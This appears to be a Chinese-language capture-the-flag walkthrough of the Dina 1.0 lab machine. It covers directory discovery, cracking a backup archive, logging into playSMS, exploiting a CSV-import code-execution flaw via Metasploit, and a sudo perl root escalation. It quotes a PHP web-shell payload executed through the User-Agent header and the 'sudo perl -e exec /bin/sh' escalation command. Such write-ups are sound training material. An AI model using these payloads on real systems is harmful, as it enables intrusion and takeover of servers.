# 命令注入-Dina1.0 1

## 信息收集

攻击机：192.168.1.15

靶机：192.168.1.11





只开放了80端口的http服务

但是我们可以看到第二张图的扫描结果中还有一个信息：

**http-robots.txt下还有5个可访问的目录**

## 目录扫描





联系我们刚才的信息收集结果，我们可以先访问一下robots.txt页面



发现确实有五个目录，我们再以此访问（**记得查看源代码**）

其他目录都是空目录，没有啥信息

/nothing乍一看没有什么有用信息，但是如果查看源代码，我们可以发现：



给了我们五个密码，后续可能会用到

还有一个目录/secure，我们查看后发现：



一个backup压缩文件，下载后尝试解压

发现解压需要密码，我们依次使用五个密码进行解压。=> freedom即为解压密码

解压得到一个mp3文件



实际上是文本文件，我们可以直接查看：



给出了用户名和隐藏的密码，以及一个目录

访问这个目录



是一个登录界面

用给出的用户名和五个密码分别尝试登录 =>diana即为密码

登录成功后，页面如下：



## 漏洞利用

可以看到登陆后是一个playSMS网站，我们可以直接利用它的漏洞进行攻击

### 查找漏洞



右边的路径存放着漏洞的详细信息，完整路径应该是：/usr/share/exploitdb/exploits/....

我们查看42044漏洞信息

```
1. Description

Code Execution using import.php

     We know import.php accept file and just read content
    not stored in server. But when we stored payload in our backdoor.csv
    and upload to phonebook. Its execute our payload and show on next page in field (in NAME,MOBILE,Email,Group COde,Tags) accordingly .

    In My case i stored my vulnerable code  in my backdoor.csv files's Name field .

    But There is one problem in execution. Its only execute in built function and variable which is used in application.

    That why the server not execute our payload directly. Now i Use "<?php $a=$_SERVER['HTTP_USER_AGENT']; system($a); ?>" in name field and change our user agent to any command which u want to execute command. Bcz it not execute <?php system("id")?> directly .

Example of my backdoor.csv file content
----------------------MY FILE CONTENT------------------------------------
Name                                                                                            Mobile  Email   Group code      Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>    22

--------------------MY FILE CONTENT END HERE-------------------------------


 For More Details : www.touhidshaikh.com/blog/

 For Video Demo : https://www.youtube.com/watch?v=KIB9sKQdEwE
 
 2. Proof of Concept

Login as regular user (created user using index.php?app=main&inc=core_auth&route=register):

Go to :
http://127.0.0.1/playsms/index.php?app=main&inc=feature_phonebook&route=import&op=list


And Upload my malicious File.(backdoor.csv)
and change our User agent.


 This is Form For Upload Phonebook.
----------------------Form for upload CSV file ----------------------
<form action=\"index.php?app=main&inc=feature_phonebook&route=import&op=import\" enctype=\"multipart/form-data\" method=POST>
" . _CSRF_FORM_ . "
<p>" . _('Please select CSV file for phonebook entries') . "</p>
<p><input type=\"file\" name=\"fnpb\"></p>
<p class=text-info>" . _('CSV file format') . " : " . _('Name') . ", " . _('Mobile') . ", " . _('Email') . ", " . _('Group code') . ", " . _('Tags') . "</p>
<p><input type=\"submit\" value=\"" . _('Import') . "\" class=\"button\"></p>
</form>
------------------------------Form ends ---------------------------

```

上述信息告诉我们

1. 上传含php木马的csv文件即可利用漏洞
2. 木马的格式
3. 可利用该漏洞的url

### 利用漏洞

根据url找到存在漏洞的地方



思路是：随便上传一个csv，使用bp抓包写入木马达到目的

不过这里我无论怎么修改filename都爆不出我想要的信息，因此我改为使用msfconsole进行漏洞利用

### MSF工具



我们使用序号2的漏洞

然后设置参数:





成功获得meterpreter





并且此时是www-data权限，因此我们要进行提权

## 提权

> sudo -l命令列出当前用户能执行的sudo 命令



它显示了当前用户可以使用sudo命令执行的命令：(ALL) NOPASSWD: /usr/bin/perl 。

这意味着www-data用户可以使用sudo命令执行/usr/bin/perl命令，并且不需要输入密码。攻击者可以利用www-data用户的权限来执行/usr/bin/perl命令，从而可能获取到服务器的权限。

> sudo perl -e "exec '/bin/sh' "
>
> bash



成功拿到root权限



获得flag


